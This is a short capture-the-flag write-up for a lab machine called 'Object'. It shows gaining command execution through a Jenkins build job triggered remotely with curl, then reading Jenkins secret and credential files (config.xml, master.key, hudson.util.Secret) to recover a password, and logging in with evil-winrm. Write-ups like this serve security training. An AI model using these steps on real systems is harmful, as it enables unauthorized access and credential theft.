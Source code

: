 # Obejct (Full Pwn)

## User

Starting with nmap to scan for open we have have 2 ports open, 80 and 8080.

![nmap](0.png)

In port 80 there is nothing interesting so we move to port 8080 which is a jenkins ci/cd platform.

![jenkins_landing_page](1.png)

We create a new account to use jenkins for building new projects. We create a new project with name test2. In the configuration page we set the Build Triggers to Trigger Build remotely and add the authentication token with name test. At Build section we add an Execute Windows Batch Command and add the command whoami. Then save the project.

![jenkins_landing_page](3.png)
![jenkins_landing_page](3.1.png)

Next we create the API token, in My Views -> New View -> Configure.

![jenkins_landing_page](4.png)

Finally we can run the request to build remotely with the API token.

` curl http://test:114adaa6de596d28727346566f6c6d7d84@object.htb:8080/job/test2/build?token=test `

Going to project test2 and see the last build and check the console output.

![jenkins_landing_page](6.png)

We got command execution. 

where /R c:\users\oliver\AppData\Local\Jenkins *.xml

cmd.exe /c "type c:\Users\oliver\Appdata\local\jenkins\.jenkins\users\admin_17207690984073220035\config.xml"

<username>oliver</username>
<password>{AQAAABAAAAAQqU+m+mC6ZnLa0+yaanj2eBSbTk+h4P5omjKdwV17vcA=}</password>

` cmd.exe /c "type c:\Users\oliver\Appdata\local\jenkins\.jenkins\secrets\master.key" `

` powershell.exe -c "$c=[convert]::ToBase64String((Get-Content -path 'c:\Users\oliver\Appdata\local\jenkins\.jenkins\secrets\hudson.util.Secret' -Encoding byte));Write-Output $c" `




` evil-winrm -i object.htb -u oliver -p c1cdfun_d2434 `
